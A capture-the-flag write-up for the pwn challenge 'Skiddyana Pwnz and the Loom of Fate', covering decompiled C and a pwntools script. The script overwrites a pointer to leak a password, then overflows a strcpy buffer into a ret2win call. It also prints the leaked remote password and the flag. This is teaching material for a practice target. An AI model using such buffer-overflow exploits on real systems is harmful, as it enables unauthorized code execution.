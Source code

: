 ```yaml
---
description: pointer overwrite and ret2win
---
```


# Skiddyana Pwnz and the Loom of Fate

## Problem

<details>

<summary>Description</summary>

Enter an ancient place, contrived beyond reason, and alter the fate of this world.

_<mark style="color:blue;">**nc**</mark> 0.cloud.chals.io 33616_

</details>

## Solution

### Analysis

Here's the decompile main code from ghidra, some parts that are deemed unnecessary or irrelevant are removed.

<details>

<summary><em><mark style="color:green;"><strong>Main()</strong></mark></em></summary>

```c

void main(void)

{
  int check;
  size_t len;
  char buffer [32];
  undefined dest [516];
  char choice [8];
  int _choice;
  char *password;
  char *src;
  
  password = "thisisnotthepassword";
  src = "Drink your ovaltine";
  putchar(10);
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          printf(
                "\nChoose your next move:\n\n1) Enter the room of the loom\n2) Read the wall of prop hecy\n3) Enter the room of the fates\n4) leave\n\n> "
                );
          fgets(choice,8,stdin);
          _choice = atoi(choice);
          if (_choice != 1) break;
          src = (char *)loomRoom(src,dest);
        }
        if (_choice != 2) break;
        printf("%s",src);
        putchar(10);
      }
      if (_choice != 3) break;
      printf("\n\nSpeak the unpronouncable phrase to pass to the room of fates : \n\n> ");
      fgets(buffer,0x1a,stdin);
      len = strlen(buffer);
      buffer[len - 1] = '\0';
      check = strcmp(buffer,password);
      if (check == 0) {
        fatesRoom(src);
      }
      else {
        puts("\nThe door does not open, the voice is silent.");
      }
    }
    if (_choice == 4) break;
    puts("\nYou get confused and try to walk in a direction that doesn\'t exist. It doesn\'t work.")
    ;
  }
  exit(0);
}


```

</details>

The program simply loop through and provide three functionalities. The second option is simply going to print what ever the <mark style="color:green;">**src**</mark> is pointing to. For the other two we will take a look further below.

<details>

<summary><em><mark style="color:green;"><strong>loomRoom()</strong></mark></em></summary>

```c
char * loomRoom(char *src,char *dest){
  size_t len;
  undefined8 buffer[32];
  char choice [8];
  int _choice;
  char *_src;
  
  _src = src;
  printf("You enter the room of the loom, and see the loom of fate before you. You can etch a prophec y into the futre, or leave the future alone.\n1) Prophesize\n2) Leave\n\n> ");
  fgets(choice,8,stdin);
  _choice = atoi(choice);
  if (_choice == 1) {
    fgets((char *)&buffer,286,stdin);
    len = strlen((char *)&buffer);
    if (len < 0x101) {
      _src = dest;
      strcpy(dest,(char *)&buffer);
    }
    else {
      puts("\nWhoa whoa, slow down, that\'s too much prophecy. Life needs some mystery.");
    }
  }
  return _src;
```

</details>

This function will be triggered if we pick the first option. It provide us with the ability to change the content of <mark style="color:green;">**src**</mark>  as long we satisfy the content is less than 256. If not then it will simply retain whatever <mark style="color:green;">**src**</mark> was pointing without changing it.&#x20;

<details>

<summary><em><mark style="color:green;"><strong>fatesRoom()</strong></mark></em></summary>

<pre class="language-c"><code class="lang-c">void <a data-footnote-ref href="#user-content-fn-1">fatesRoom</a>(char *src){
  undefined8 dest[16];
  char choice [8];
  int _choice;

  printf("\n1) Yes\n2) No\n\n> ");
  fflush(stdin);
  fgets(choice,8,stdin);
  _choice = atoi(choice);
  if (_choice == 1) {
    strcpy((char *)&#x26;dest,src);
  }
  else {
    puts("\nYou leave the room of the fates, this reality intact.");
  }
  return;
</code></pre>

</details>

This function will be triggered if we pick the third option. It will only move the data pointed by <mark style="color:green;">**src**</mark> to its local variable. Here lies the main vulnerability, because our buffer that is being pointed by <mark style="color:green;">**src**</mark> has the potential to copy the amount that will exceeds the limit of <mark style="color:green;">**dest**</mark> and overwriting the <mark style="color:red;">**RIP**</mark>. Luckily there's a function call <mark style="color:green;">**theVoid()**</mark> that acts as the win function. However in order for the function to executes, there's a check to a password that needs to be passed beforehand.

### Exploitation

Although the password is hardcoded and we already see it in the main function, the remote server seem to contain a password that is different from that was given to us. So we need to leak the password on the remote server.&#x20;

To leak the password we will use the 2nd option which prints anything as a string that is being pointer by <mark style="color:green;">**src**</mark>.  So we need to control whatever <mark style="color:green;">**src**</mark> is pointing, to achieve this we will take a look at the <mark style="color:green;">**loomRoom()**</mark> once more...

Notice even though it checks the length of our buffer to be less than 256, we are still able to write 286 bytes, enough to overwrite the <mark style="color:green;">**src**</mark>. Since <mark style="color:red;">PIE</mark> is not enabled, the address of the password is hardcoded and we can overwrite <mark style="color:green;">**src**</mark> with the password address and call the option to print it.



<figure><img src="../../../.gitbook/assets/image_2023-08-10_155222867.png" alt="" width="497"><figcaption><p>leaking the password locally</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image_2023-08-10_155304223.png" alt="" width="488"><figcaption><p>leaking the password remotely</p></figcaption></figure>

Next we will simply abuse the <mark style="color:green;">**strcpy()**</mark> to trigger a buffer overflow and change the code execution to call the win function.

So, to summary here's what our exploit should do:

1. First, corrupt the <mark style="color:green;">**src**</mark> to point to the password address
2. call the print functionality to leak the password
3. prepare our payload with <mark style="color:green;">**loomRoom()**</mark>
4. trigger buffer overflow with <mark style="color:green;">**fatesRoom()**</mark>

<details>

<summary><em><mark style="color:green;">Solve Script</mark></em></summary>

{% code title="Exploit.py" lineNumbers="true" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './loom'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host, port = '0.cloud.chals.io', 33616

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x401674
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = initialize()

# corrupting ptr memory at [rbp - 0x8]
offset = 0x118 # fgets at [rbp - 0x120]
payload = flat({
    offset: [
        0x40232a, # password addr
    ]
})

io.sendlineafter(b'move:', b'1')
io.sendlineafter(b'Prophesize', b'1')
io.sendline(payload)

# leaking password (%s prints a (char *) which we just corrupted)
io.sendlineafter(b'move:', b'2')
io.recvuntil(b'ancient :')
io.recvlines(2)
password = io.recvline().strip() # QjVHST7M11cY7Ws6mXU1

# payload to ret2win
offset = 152
payload = flat({
    offset: [
        elf.sym['theVoid']
    ]
})

# sending payload
io.sendlineafter(b'move:', b'1')
io.sendlineafter(b'Prophesize', b'1')
io.sendline(payload)

# corrupting rip with strcpy()
io.sendlineafter(b'move:', b'3')
io.sendlineafter(b'pass', password)
io.sendlineafter(b'seek?', b'1')

io.interactive()
```
{% endcode %}

</details>

<figure><img src="../../../.gitbook/assets/image_2023-08-10_155427169.png" alt="" width="563"><figcaption><p>Final exploit</p></figcaption></figure>

## Flag

> _**flag{d0nt\_f0rg3t\_y0ur\_h4t}**_



[^1]: 
